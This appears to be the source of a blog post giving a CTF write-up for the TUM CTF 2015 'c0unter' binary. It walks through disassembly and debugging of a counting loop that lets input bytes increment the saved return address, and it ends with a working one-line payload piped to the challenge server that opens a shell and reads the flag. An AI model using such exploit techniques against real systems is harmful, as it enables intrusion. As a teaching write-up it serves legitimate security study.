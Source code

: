 ```yaml
---
layout: post
title:  "TUM CTF 2015 Teaser - c0unter (pwn 25)"
date:   2015-10-30 20:00
categories: ctf exploit
---
```


I had the possiblity to play a few hours on [TUM CTF Teaser][tum]. It was
nicely organized and the challenges were fun to solve - even for the easy ones.
Here is the first write-up I am going to publish for that CTF.

# Basic information

From the organizers:
{% highlight text %}
Pwn / c0unter
Baby's 1st
ctf.link/assets/downloads/pwn/counter
nc 1.ctf.link 1031
25 Points
{% endhighlight %}

We are facing an ELF 64-bit binary, stripped and with only NX enabled:
{% highlight shell-session %}
$ file counter
counter: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=b065123973be4586a6b10f277cda428776bde80b, stripped

$ checksec --file counter
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX enabled    No PIE
RPATH      RUNPATH      FILE
No RPATH   No RUNPATH   counter
{% endhighlight %}

By looking at the relocation table, we can see that the binary must have
somewhere a call to `execl` and another to `fscanf`:
{% highlight shell-session %}
$ objdump -R counter

counter:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600c68 R_X86_64_GLOB_DAT  __gmon_start__
0000000000600d00 R_X86_64_COPY     stdin
0000000000600c88 R_X86_64_JUMP_SLOT  free
0000000000600c90 R_X86_64_JUMP_SLOT  __isoc99_fscanf     <=
0000000000600c98 R_X86_64_JUMP_SLOT  puts
0000000000600ca0 R_X86_64_JUMP_SLOT  __libc_start_main
0000000000600ca8 R_X86_64_JUMP_SLOT  __gmon_start__
0000000000600cb0 R_X86_64_JUMP_SLOT  malloc
0000000000600cb8 R_X86_64_JUMP_SLOT  exit
0000000000600cc0 R_X86_64_JUMP_SLOT  execl               <=
{% endhighlight %}

# Disassembling

When interacting with the service, no welcome message or instruction is
provided, it only seems to echo our input. The call to fscanf is made at `0x40074f`:
{% highlight shell-session %}
$ objdump -M intel -d counter
[snip]
40074f: e8 0c fe ff ff        call   400560 <__isoc99_fscanf@plt>
[snip]
{% endhighlight %}

In GDB with [peda][peda], we can see the arguments given to `fscanf`:
{% highlight shell-session %}
gdb-peda$ b *0x40074f
Breakpoint 1 at 0x40074f
gdb-peda$ r
[snip]
Guessed arguments:
arg[0]: 0x7ffff7dd5900 --> 0xfbad2088 
arg[1]: 0x4008dc --> 0x7331313525 ('%511s')
arg[2]: 0x600d40 --> 0x0 
arg[3]: 0x0 
[snip]
{% endhighlight %}

The first argument is the address of `stdin` in the glibc, the second argument
is the format used to interpret our input and the third argument is the address
of the destination buffer where our input is stored.

Between `0x400794` and `0x4007ae` we can see that the code loops over the buffer, count the occurence of each character of our input and save that information on the stack:

{% highlight shell-session %}
0x400794: mov    eax,0x600d40             ; address of the buffer
0x400799: lea    rcx,[rbp+rax*1+0x0]      ; number of bytes read by fscanf
0x40079e: xchg   ax,ax
0x4007a0: movzx  edx,BYTE PTR [rax]       ; get the value of the current byte
0x4007a3: add    rax,0x1                  ; offset of the next char
0x4007a7: add    BYTE PTR [rsp+rdx*1],0x1 ; increment the counter of this byte
                                          ; by 1
0x4007ab: cmp    rax,rcx
0x4007ae: jne    0x4007a0
{% endhighlight %}

This can be interpreted as the following C code:
{% highlight c %}
for (i = 0; i < input_length; ++i) {
  *(rsp + input[i]) += 1;
}
{% endhighlight %}

As a byte can contain a value between 0x00 and 0xff, we can manipulate the
stack from its top to 256 bytes further. If the saved `rip` value is contained
within that range, we can hijack the flow of the program.

Here is an example where I've fed the binary with the string `AAAABBBBCCCCDDDD`. To do that I usually create a `fifo`:
{% highlight shell-session %}
$ mkfifo fifo
{% endhighlight %}

In gdb, I use it to feed the binary through its standard input:
{% highlight shell-session %}
gdb-peda$ r < fifo
{% endhighlight %}

And in another shell, I can use any commands to feed the fifo:
{% highlight shell-session %}
$ echo 'AAAABBBBCCCCDDDD' > fifo
$ echo -e -n '\xde\xad\xbe\xef' > fifo
$ python2 -c 'print "..."' > fifo
$ ./script > fifo
{% endhighlight %}

Here is the stack before executing the vulnerable function:
{% highlight shell-session %}
gdb-peda$ x/22gx $rsp
0x7fffffffdc00:	0x0000000000000000	0x0000000000000000
0x7fffffffdc10:	0x0000000000000000	0x0000000000000000
0x7fffffffdc20:	0x0000000000000000	0x0000000000000000
0x7fffffffdc30:	0x0000000000000000	0x0000000000000000
0x7fffffffdc40:	0x0000000000000000	0x0000000000000000
0x7fffffffdc50:	0x0000000000000000	0x0000000000000000
0x7fffffffdc60:	0x0000000000000000	0x0000000000000000
0x7fffffffdc70:	0x0000000000000000	0x0000000000000000
0x7fffffffdc80:	0x0000000000400850	0x0000000000000000
0x7fffffffdc90:	0x0000000000400850	0x00000000004005d9
0x7fffffffdca0:	0x0000000000000000	0x00007ffff7a57610
{% endhighlight %}

And here it is after the execution of the vulnerable function:
{% highlight shell-session %}
gdb-peda$ x/22gx $rsp
0x7fffffffdc00:	0x0000000000000000	0x0000000000000000
0x7fffffffdc10:	0x0000000000000000	0x0000000000000000
0x7fffffffdc20:	0x0000000000000000	0x0000000000000000
0x7fffffffdc30:	0x0000000000000000	0x0000000000000000
0x7fffffffdc40:	0x0000000404040400	0x0000000000000000
0x7fffffffdc50:	0x0000000000000000	0x0000000000000000
0x7fffffffdc60:	0x0000000000000000	0x0000000000000000
0x7fffffffdc70:	0x0000000000000000	0x0000000000000000
0x7fffffffdc80:	0x0000000000400850	0x0000000000000000
0x7fffffffdc90:	0x0000000000400850	0x00000000004005d9
0x7fffffffdca0:	0x0000000000000000	0x00007ffff7a57610
{% endhighlight %}

You can see that the bytes between addresses `0x7fffffffdc41` and
`0x7fffffffdc44` have been incremented by 4. These addresses correspond to the
address of `rsp`, `0x7fffffffdc00`, plus the value in bytes of `A`, `B`, `C`
and `D`: `0x41`, `0x42`, `0x43` and `0x44` respectively. You may find more
information about ASCII characters value in hexadecimal [here][ascii].

# Exploitation

Here is the information about the current stack frame, when the vulnerable code is executed:
{% highlight shell-session %}
gdb-peda$ i frame
Stack level 0, frame at 0x7fffffffdca0:
 rip = 0x40074f; saved rip = 0x4005d9
 called by frame at 0x7fffffffdcb0
 Arglist at 0x7fffffffdbf8, args: 
 Locals at 0x7fffffffdbf8, Previous frame's sp is 0x7fffffffdca0
 Saved registers:
  rbx at 0x7fffffffdc88, rbp at 0x7fffffffdc90, rip at 0x7fffffffdc98
{% endhighlight %}

The distance from the top of the stack (`rsp`) and the location of the saved `rip` is 152 bytes:
{% highlight shell-session %}
gdb-peda$ distance $rsp 0x7fffffffdc98
From 0x7fffffffdc00 to 0x7fffffffdc98: 152 bytes, 38 dwords
gdb-peda$
{% endhighlight %}

If we send to the binary bytes having values between 152 (`0x98`) and 160 (`0xa0`),
we can change the value of the saved `rip` and control the flow of the program
when the current function return.

As mentionned earlier, there is at least a call to `execl` somewhere is the code:
{% highlight shell-session %}
$ objdump -M intel -d counter | grep -B 5 execl
[snip]
4006e0:	bf d4 08 40 00       	mov    edi,0x4008d4
4006e5:	48 83 ec 08          	sub    rsp,0x8
4006e9:	31 d2                	xor    edx,edx
4006eb:	be d9 08 40 00       	mov    esi,0x4008d9
4006f0:	31 c0                	xor    eax,eax
4006f2:	e8 c9 fe ff ff       	call   4005c0 <execl@plt>
[snip]
{% endhighlight %}

This shows to complete call to `execl`:

* the first argument is a string located at `0x4008d4`
* the second argument is a string located at `0x4008d9`
* and the third argument is `0` (`xor    edx,edx`), which is used to indicate
  the end of the arguments list. Here are the strings:
{% highlight shell-session %}
gdb-peda$ x/s 0x4008d4
0x4008d4:	"/bin/sh"
gdb-peda$ x/s 0x4008d9
0x4008d9:	"sh"
{% endhighlight %}

This gives us the following call: `execl("/bin/sh", "sh");`

Let's replace the saved `rip` with `0x4006e0` so that we can spawn a shell when
the function returns.  Saved `rip` minus the address of the call to execl will
give us the number of characters we have to use:

`0x4006e0 - 0x4005d9 = 0x0107` or `0xe0 - 0xd9 = 0x07` and `0x06 - 0x05 = 0x01`

This means that the lowest byte of saved `rip` must be incremented 7 times and
the next one, once:
{% highlight shell-session %}
$ (python2 -c 'print 7 * "\x98" + "\x99" + "\0\0\0\0"'; cat) \
  | nc -v 1.ctf.link 1031
Connection to 1.ctf.link 1031 port [tcp/*] succeeded!
id
uid=1000(counter) gid=1000(counter) groups=1000(counter)
ls -la
total 32
drwxr-xr-x 2 root root 4096 Oct 24 21:00 .
drwxr-xr-x 6 root root 4096 Oct 24 21:00 ..
-rwxr-xr-x 1 root root 5384 Oct 24 00:38 counter
-rw-r--r-- 1 root root   32 Oct 24 12:59 flag.txt
-rwxr-xr-x 1 root root 9384 Oct 24 15:51 ynetd
cat flag.txt
hxp{0verflow1ng_ch4c4cters_w1n}
{% endhighlight %}

Pwned for the glory of the almighty technoviking!
![technoviking](https://www.zazzle.com/rlv/techno_viking_by_redrevolt_make_me_proud_poster-r40c1f27408414a17b6c3c70d65458264_w1t_8byvr_512.jpg)

[tum]: https://ctftime.org/event/238
[peda]: https://github.com/longld/peda
[ascii]: http://www.asciitable.com/
